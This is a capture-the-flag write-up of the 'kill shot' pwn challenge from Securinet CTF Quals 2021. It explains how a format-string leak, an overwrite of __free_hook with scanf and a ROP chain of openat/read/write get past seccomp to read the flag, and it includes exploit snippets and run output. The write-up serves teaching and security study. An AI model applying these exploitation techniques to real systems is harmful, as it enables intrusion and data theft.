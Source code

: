 ```yaml
---
layout: post
title: kill shot [pwn]
author: hugsy
tags: [pwn, elf64, formatstring, heap]
date: 2021-03-21 20:54 
---
```


 * Competition: [Securinet CTF Quals 2021](https://www.ctfsecurinets.com/challenges)
 * Challenge Name: kill shot
 * Type: pwn
 * Points: 1000 pts
 * Description: 
 > Let's learn some exploitation!
 >

## Reconnaissance

`kill_shot` is a small ELF64 with all traditional mitigations enabled.
```
$ checksec ./kill_shot
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

In addition, a quick look at it disassembly shows it loads restrictive seccomp rules early in the `main`, which we can dump using [seccomp-tools](https://github.com/david942j/seccomp-tools):
<!--more-->
```
$ seccomp-tools dump ./kill_shot
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000005  if (A == fstat) goto 0010
 0008: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0010
 0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```
Only a handful of syscalls are allowed (no `execve` and the like), but enough to read the flag and get it back. This is important mostly for the payload building part, but we're not there yet.
Finally, the challenge gives us the following hint:
```
flag is in /home/ctf/flag.txt
```

## Overview

The runtime operates in 3 steps:
 1. Step 1 gives us a controlled format string after making sure we can't use `%n` to write to arbitrary locations. It is however sufficient to leak everything else we need (libc pointers, exe mapped pointers, etc.) to defeat ASLR.
 2. Step 2 gives a totally arbitray write: we can overwrite 8 bytes at any location of our choosing
 3. Step 3 (last) offers some very basic heap manipulation: we can either create 
    - create new chunks of controlled size and write the content (i.e. `malloc`+`read`)
    - free those chunks (i.e. `free`)

There's no bug is the allocation/free part (such as heap overflow, double free, etc.) and we can only have a maximum of 9 `malloc`-ed chunks.


## Exploit

My original idea was that, since `mprotect` is allowed, the intended purpose is to gain code execution via the arbitrary write, and `mprotect` as `rwx` the heap, when our shellcode would be sitting, doing the typical (`sys_open`, `sys_read`, `sys_write`).
After wasting a few hours on this, I went a totally different way: we can abuse the fact that `malloc` and `free` can be called on demand, to trigger some function to be called as we wish, and with a pointer to a location we control the content, via the `__malloc_hook` and `__free_hook` function pointers.
The issue with the current arbitrary write, is that it allows to gain quickly arbitrary code execution but with little to no control over the rest (registers, stack). So I decided to use `scanf` as target of my arbitrary overwrite: `scanf` is a perfect candidate since we entirely control the format string all we need to find is a stack pointer and write a "%s" at that offset. This would have for effect to change our arbitrary write into a stack overflow (and no canary please).

After a few tests, the 4th offset was a good candidate (i.e. `scanf("%4$s")`), and we fully control $pc and the stack.

![image](https://user-images.githubusercontent.com/590234/111921156-3d931c00-8a50-11eb-8bb0-e1576f72028b.png)

The rest was simply find gadgets from the binary and the libc, enough to open, read the flag file, and write it to stdout.

So to recap, the exploit flow was:
1. use the format string to leak elf base, libc base
2. use the arb, write to overwrite `__free_hook` with `scanf`
```python
    addr = libc.symbols["__free_hook"]
    r.sendafter(b"Pointer: ", str(addr))
    r.sendafter(b"Content: ", p64(libc.symbols["scanf"]))
```
3. allocate a chunk with "%s" inside and free it to trigger a stack bof
```python
    if LOCAL:
        alloc(r, b"/tmp/flag.txt\0", 0x100) # 0
    else:
        alloc(r, b"/home/ctf/flag.txt\0", 0x100) # 0
    alloc(r, b"%4$s") # 1
    free(r, 1)
```

4. now we have a regular stack bof
```python
    rop = flat([
        [...]
        p64(libc.symbols["openat"]),
        [...]
        p64(libc.symbols["read"]),
        [...]
        p64(libc.symbols["write"]),
    ])        
```

When done, we can remotely read the flag:

```bash
$ ./xp.py remote
[+] Opening connection to bin.q21.ctfsecurinets.com on port 1338: Done
[*] step 1: leak stuff
[+] leaked addresses:
0x563765daa240
0x563765da9b10
0x7ffd0d86b5e0
0x169ebea30560a000
0x563765daa240
0x7f85cf4adb97
[+] found elf at 563765da9000
[+] found libc at 7f85cf48c000
[*] step 2: overwrite __free_hook with scanf
[+] overwritten __free_hook
[*] step 3: trigger stack overflow
[*] Switching to interactive mode
flag{this_really_needs_a_kill_shot!_cc5dcc74acd62fa74899efaff22d8f79}\x00\x00\x00\x00\x00\x00\x00\x00
```

My full exploit can be found [here](https://gist.github.com/hugsy/3dae779cf60eb3ecdbe64749855d62cc).
